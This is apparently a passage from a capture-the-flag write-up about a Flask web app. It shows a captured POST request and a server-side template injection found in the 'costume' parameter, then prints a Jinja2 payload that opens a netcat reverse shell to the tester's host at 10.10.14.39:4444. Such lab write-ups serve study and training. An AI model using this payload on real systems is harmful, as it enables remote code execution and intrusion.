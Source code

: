```http
POST /order HTTP/1.1
Host: 10.129.96.151:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://10.129.96.151:5000
Connection: close
Referer: http://10.129.96.151:5000/order
Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QifQ.SYLPqHmtbgIzpOiaVnKoifTOeTuOBMPy5adK8v0DD6E
Upgrade-Insecure-Requests: 1



costume=goggles&q=test&addr=test
```

A quick test reveals the `costume` parameter to be the injection point using `{{config.items()}}`.

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

Here's a payload I used that got me a reverse shell:

```
{{+self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.39%204444%20%3E%2Ftmp%2Ff').read()+}}
```

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

